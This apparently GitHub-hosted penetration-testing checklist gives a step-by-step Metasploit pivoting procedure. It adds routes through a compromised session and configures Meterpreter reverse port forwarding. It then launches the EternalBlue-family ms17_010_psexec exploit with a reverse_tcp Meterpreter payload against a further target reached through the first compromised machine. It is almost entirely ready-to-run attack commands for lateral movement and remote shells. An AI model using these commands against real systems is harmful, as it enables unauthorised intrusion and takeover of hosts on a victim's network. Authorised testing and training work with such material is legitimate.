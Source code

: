 # Penetration Testing Checklist

A complete guide to Port Forwarding to the target host, through Metasploit.

This guide is written in a methodical step-by-step process, it is recommended not skipping steps.&nbsp;
&nbsp;

&nbsp;
**Configure route(s)**
```Windows
msf> route add {target-host} 255.255.255.255 {session-id}
```
&nbsp;

**Configure reverse portforwarding from the initial compromised host**
```Windows
meterpreter> portfwd add -R -l {kali-listen-port} -p {compromised-listen-port} -L {target-host}
```
```Windows
-R: Indicates a reverse portfwd
-l: The local listening port on the attackers machine
-p: The local listening port on the initial compromised machine
-L: The final target in the chain
```
**For example:**
```Windows
meterpreter> portfwd add -R -l 8081 -p 3000 -L 10.10.10.1
```
```Windows
msf> use exploit/windows/smb/ms17_010_psexec
msf> set payload windows/x64/meterpreter/reverse_tcp
msf> set lhost {compromised-host-address} ##Compromised Host IP/Interface
msf> set lport 3000 ##Compromised Host Listen Port
msf> set rhosts 10.10.10.1 ##Final Target IP
msf> set disablepayloadhandler true
msf> run -j
```

